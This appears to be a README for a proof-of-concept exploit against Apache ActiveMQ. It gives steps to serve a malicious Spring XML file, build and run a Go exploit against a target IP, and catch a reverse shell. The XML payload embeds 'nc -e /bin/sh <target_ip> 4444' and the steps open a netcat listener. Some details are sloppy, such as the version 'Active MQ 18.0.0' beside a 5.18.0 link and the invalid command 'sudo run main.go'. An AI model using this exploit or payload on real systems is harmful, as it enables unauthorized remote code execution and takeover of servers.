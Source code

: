 # POC

**Ready to environment:**

1. Download Active MQ 18.0.0 Release fromhere:
https://activemq.apache.org/activemq-5018000-release

2.Install the Active MQ based on instructions, you can use it:
https://www.techbeginner.in/2019/12/how-to-install-apache-activemq-on-ubuntu-16-04.html

3. Tested on Kali (Debian) current distribution.

**Build POC:**

 1. $ python3 -m http.server 8001 (where the .xml poc file)
 2. $ sudo go build main.go (build & run go file)
 3. $ sudo run main.go
 4. $ systemctl status activemq  (Check the Activemq service is up)
 5. Check the values tags on xml file as:

                <value>sh</value>
                <value>-c</value>
                <value>nc -e /bin/sh <target_ip> 4444</value>
6. Check the values the default values. You don't need to review it: \n
	flag.StringVar(&ip, "i", "", "ActiveMQ Server IP or Host")\n
	flag.StringVar(&port, "p", "61616", "ActiveMQ Server Port")\n
	flag.StringVar(&url, "u", "", "Spring XML Url")\n
	flag.Parse()\n

**Run POC:**

7. $ ./main -i <target_ip> -u http://127.0.0.1:8001/poc-linux.xml
8.  $ nc -lvnp 4444 (listening for reverse shell)
